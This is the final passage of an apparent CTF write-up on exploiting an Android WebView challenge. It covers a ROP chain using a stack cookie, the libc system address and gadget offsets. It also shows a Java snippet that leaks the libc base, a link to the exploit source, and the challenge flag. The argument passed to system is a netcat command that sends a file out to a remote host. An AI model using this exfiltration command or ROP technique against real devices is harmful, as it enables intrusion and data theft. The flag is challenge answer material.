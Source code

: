 Where finally:

- cookie holds our stack cookie value;
- systemFunctionAddress is the pointer to **libc system** function (libc base address + 0x7d360);
- getMySomethingValue is the pointer to the first argument passed to **system** function (in our case *cat /data/local/tmp/challenge5 | nc ip port*);
- ropGadgetAddress is the pointer to our rop gadged (base libc address + 0xc217e).

## When language does not assist you

We're almost done. Every **libc** function address (in-memory address, not the relative one) can be obtained by adding the relative function address to the value passed as search component from our Java app to our webpage.

In case you forgot it:

```java
    ...
    .putExtra("url", String.format(
        "https://mydomain.tld/?%d", // <---- %d
         getLibraryBaseAddress("/system/lib64/libc.so"
       )
     );
     ...
```

Probably the big issue for this challenge was the lack of 64bit integer support in javascript. I had to type more code to handle them than the code to exploit the bug.

[Here](https://github.com/luc10/h1-702-2018-ctf-wu/tree/master/challenge-5/) you can find the whole source of the exploit.

## Summing up

There’s a lot to say but I bet everyone who played the Android challenge had so much fun. I must thank Christopher Thompson and the whole H1 team for giving me an opportunity to take a break from university and exams with this awesome CTF challenge. No matter what, I hope to jump into another one soon. Time to rest (study) now! :zzz:

Uh, I almost forgot... The last flag is:

`flag{in_uR_w33b_view_4nd_ur_mem}`
